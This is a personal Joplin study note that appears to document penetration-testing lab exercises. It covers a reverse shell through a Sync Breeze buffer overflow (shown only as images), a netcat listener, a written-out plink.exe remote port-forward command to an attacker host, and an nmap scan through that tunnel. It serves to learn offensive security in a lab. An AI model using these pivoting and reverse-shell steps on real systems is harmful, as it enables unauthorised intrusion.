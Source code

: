 20.3.1.1

# 20.3.1.1

## 20.3.1.1.1. Obtain a reverse shell on your Windows lab client through the Sync Breeze vulnerability. 

Start SyncBreeze on the Windows client
![f44d059e91f80c75fc6d1d66259433b0.png](:/21914410481d466d93d5152a79f0d92f)

Open a netcat listener on Kali port 443
![1cd09aea4effbe184cca195c3835758a.png](:/df117905c83240fc90b858ea38036f69)

Use the buffer overflow expoit from 15.1.7.1.1
![b677f07f9e9c2738a8bd3bb1db1232fd.png](:/4067f9576367414f9ac351edb6aeb905)
![3ce2c04ef22a09a8e3642d78921da73e.png](:/274a79b38805471c8e9751b1421d5809)


## 20.3.1.1.2. Use plink.exe to establish a remote port forward to the MySQL service on your Windows 10 client.

During our enumeration and information, we see that there is an MySQL service running on port 3306
![861977b576303ba1b73468ede96584bb.png](:/4bdaf369826d4048887d3982cd90fe5a)

Establish a remote port forward on our Windows client to the Kali machine.
`cmd.exe /c echo y | plink.exe -ssh -l kali -pw <password> -R 192.168.119.214:1234:127.0.0.1:3306 192.168.119.214`
![6d05cb58e4467f56e0e05536c15a25de.png](:/24485f9a80b1461097e56def74d78681)



## 20.3.1.1.3. Scan the MySQL port via the remote port forward.

The tunnelis now active, so we can attempt to launch an Nmap scan of the target's MySQL port via our localhost port forward on TCP port 1234
`sudo nmap -sS -sV 127.0.0.1 -p 1234`
![18f2e76bf6086b8b00f7d99dcf1b408f.png](:/630be5d7d91e473686949a18571fb66f)



id: b5fa9b46a47c4dcab4da9981f9104ad7
parent_id: ba7f46fcc7b74569a2be36fe95160ab3
created_time: 2020-10-04T13:31:56.564Z
updated_time: 2020-10-04T20:57:17.046Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-04T13:31:56.564Z
user_updated_time: 2020-10-04T20:57:17.046Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1